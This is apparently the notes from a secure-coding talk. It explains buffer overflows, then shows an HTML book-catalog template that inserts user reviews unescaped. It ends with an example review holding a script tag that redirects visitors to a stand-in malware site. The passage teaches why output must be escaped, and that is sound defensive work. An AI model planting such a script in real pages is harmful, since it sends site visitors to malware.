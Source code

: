 A number of threats to security involve convincing a program to treat data as executable instructions. Most of the attacks on Microsoft and Oracle which mean you have to update Windows and Java every seventeen minutes buffer overflow attacks. Because arrays aren't really a thing in C, you can _overflow_ the array by simply writing past the end of it; there are no checks to ensure user input fits inside the array. If you are familiar with the memory layout of the application, you can write enough that you overwrite machine instructions with your own, giving you complete control of the application execution simply by providing more text than was expected.

</div>

</section>

<section>

### Too much to think about

<div class="notes">

Earlier, we pulled some data in from a CSV file. Now we're going to send out some HTML.

We won't make the same mistake we made with the SQL. No concatenation, this time. We're going to use a templating library. Our template will look something like this:

</div>

```markup
<section id="catalog">
    <#list books as book>
        <div class="book" id="${book.id}">
            <h1><span class="title">${book.title}</span>,
                by <span class="author">${book.author}</span></h1>
            <p class="description">${book.description}</p>

            <ol class="reviews">
                <#list book.reviews as review>
                    <li>${review.text} -- ${review.reviewerName}</li>
                </#list>
            </ol>
        </div>
    </#list>
</section>
```

</section>

<section>

<div class="notes">

Easy. Sorted. Cushty.

Except no. What if one of the reviews looks something like this?

</div>

> I thought this was one of Shakespeare's best plays.
> &lt;script&gt;document.location = 'http://install.malware.com/';&lt;/script&gt;
